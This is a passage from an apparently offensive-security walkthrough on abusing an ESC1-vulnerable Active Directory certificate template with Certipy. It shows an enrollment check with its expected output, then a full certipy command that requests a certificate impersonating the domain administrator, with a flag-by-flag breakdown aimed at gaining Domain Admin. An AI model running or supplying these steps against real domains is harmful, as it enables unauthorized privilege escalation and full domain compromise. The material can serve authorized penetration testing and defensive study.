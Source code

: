 ```bash
# [*] Saved certificate and private key to 'user.pfx'

# FAILURE (can't enroll):
# [-] Got error while trying to request certificate: access denied
# OR
# [-] Got error: The request was denied by a certificate manager or CA administrator
```

✅ If certificate issued: You can enroll, proceed with exploitation  
❌ If access denied: Enumeration was incorrect or permissions changed

---

## ESC Attack Techniques

### Step 16: ESC1 Exploitation - Full Walkthrough

**Scenario:** Certipy found ESC1-vulnerable template, you want Domain Admin

---

#### Phase 1: Reconnaissance (Already Done via `certipy find`)

**You know:**
- Template Name: `ESC1-Template`
- CA Name: `CORP-DC01-CA`
- You have enrollment rights
- Template allows SAN specification

---

#### Phase 2: Request Certificate for Target User

**Goal:** Request certificate that impersonates `administrator@corp.local`

```bash
certipy req -u 'user@corp.local' -p 'Password123' \
    -ca 'CORP-DC01-CA' \
    -template 'ESC1-Template' \
    -upn 'administrator@corp.local' \
    -dc-ip 192.168.1.10
```

**Command Breakdown:**
- `req` = Request certificate
- `-u` = Your current username (low-privilege)
- `-p` = Your password
- `-ca` = Certificate Authority name (from enum)
- `-template` = Vulnerable template name (from enum)
- `-upn` = Target user to impersonate (UPN format)
- `-dc-ip` = Domain Controller IP

---

